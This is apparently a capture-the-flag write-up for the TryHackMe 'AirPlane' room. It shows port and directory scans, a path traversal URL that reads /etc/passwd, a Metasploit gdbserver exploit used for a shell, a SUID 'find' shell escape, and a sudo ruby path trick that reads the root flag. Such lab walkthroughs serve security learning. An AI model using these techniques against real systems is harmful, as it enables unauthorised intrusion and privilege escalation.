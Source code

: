 <code>
  
https://tryhackme.com/r/room/airplane  

### Service Enumeration
┌──(duke㉿kali)-[~/Documents/THM_AirPlane]
└─$ nmap  -sV -p- -Pn 10.10.128.237
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-13 03:08 CDT
Nmap scan report for 10.10.128.237
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
6048/tcp open  x11?
8000/tcp open  http-alt Werkzeug/3.0.2 Python/3.8.10

http://airplane.thm:8000/?page=index.html

┌──(duke㉿kali)-[~/Documents/THM_AirPlane]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://airplane.thm:8000 -x php,txt,html -k
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:                     http://airplane.thm:8000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
2024/06/13 03:20:15 Starting gobuster in directory enumeration mode
/airplane             (Status: 200) [Size: 655]

### Found Path Traversal 
http://airplane.thm:8000/?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

carlos:x:1000: nothing
hudson:x:1001: get some files from home folder

### Initial Access
I found out that there is an exploit available for gdbserver, so I used the Metasploit exploit multi/gdb/gdb_server_exec. and fill all required options.

get shell as Hudson

run linpeas and

### Priv Esc
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
-rwsr-xr-x 1 carlos carlos 313K Feb 18  2020 /usr/bin/find     


hudson@airplane:/$ ./usr/bin/find . -exec /bin/sh -p \; -quit
./usr/bin/find . -exec /bin/sh -p \; -quit
$ id
id
uid=1001(hudson) gid=1001(hudson) euid=1000(carlos) groups=1001(hudson)

Have access to hudson home folder create own ssh key get full ssh access as **carlos**

### Priv Esc to root

carlos@airplane:/usr/bin$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    `(ALL) NOPASSWD: /usr/bin/ruby /root/*.rb`

**Folders /Root  and /usr/bin/ruby are ofcorse locked for write**
 
 ### Wildcard Exploiting

carlos@airplane:**/home/carlos/**$ echo "puts File.read('/root/root.txt')" > x.rb

carlos@airplane:$ sudo /usr/bin/ruby **/root/../home/carlos/x.rb**


</code>
